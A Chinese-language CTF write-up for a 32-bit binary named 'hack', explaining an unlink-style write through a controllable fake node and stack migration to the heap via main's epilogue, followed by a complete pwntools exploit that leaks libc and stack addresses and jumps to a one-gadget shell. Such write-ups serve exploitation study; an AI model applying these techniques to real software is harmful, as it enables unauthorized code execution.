 ```yaml
---
title: 'x86_stack_migration:Hack'
date: 2018-11-16 19:25:08
tags:
---
```

基础太差...
tcl
<!---more-->

# Hack
不知道啥比赛的题...上课上完有个朋友给我发了题...初看挺简单...后来看了群里师傅的思路才做出来..
曲线救国曲线救国。。。
[附件][1]
# Analysis

X86的程序题目意图很明显考察利用思路...
```arm
➜  Desktop checksec hack
[*] '/home/n132/Desktop/hack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
直接允许泄露栈地址，堆地址，libc基址
最后的部分考察利用
```arm
  P1 = fake_node->pre;
  P2 = fake_node->next;
  P1->next = P2;
  P2->pre = P1;
```
其中fake_node完全可控

# 思路
* 可以设置p1,p2然后程序就会往p1+8写p2和p2+12写p1
* 那么问题来了假设我们要控制执行流那么我们一定要有个能执行的address
* 因为可执行不可写那么显然那个address是填写在我们之前控制的堆上..
* 所以我们最后设置p1,p2的目的是让程序运行到堆上去...
* 今天的新发现...32位程序main在ret前是.（自己随便编了一个发现也是...之前都没注意到，tcltcl）
```arm
 8048702:	c9                   	leave  
 8048703:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048706:	c3                   	ret   
```
* 然后我们就可以将stack migrate到heap上跳gadget...

# 真是TCLTCL
EXP
```python
from pwn import *
#context.log_level = 'debug'
p = process("./hack")
elf = ELF("./hack")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")


p.recvuntil("input address: \n")
p.sendline("134520860")
p.recvuntil("0x")
addr = int(p.recvuntil("\n",drop=True),16)
print hex(addr)


libc_base = addr - libc.symbols['puts']

environ_addr = libc_base+libc.symbols['_environ']

p.recvuntil("Second chance: \n")
p.sendline(str(environ_addr))
p.recvuntil("0x")
stack_addr = int(p.recvuntil("\n",drop=True),16)-(0xffffdef0-4-0xfffdd000)


ret_addr = stack_addr+0xffffd05c-0x804b000
p.recvuntil("node is ")
heap=int(p.readuntil(",")[:-1],16)-0x20
log.info(hex(libc_base))
log.info(hex(stack_addr))
log.info(hex(heap))
#gdb.attach(p,'b *0x8048706')
libc.address=libc_base
payload  = p32(0x3ac69+libc_base)+p32(0)+p32(0xffffd054-12+stack_addr-0xfffdc220)+p32(heap+0x24)
p.sendafter("now: ",payload)
p.interactive("nier>>>>")
```



[1]:https://github.com/n132/Watermalon/tree/master/UNKNOW/hack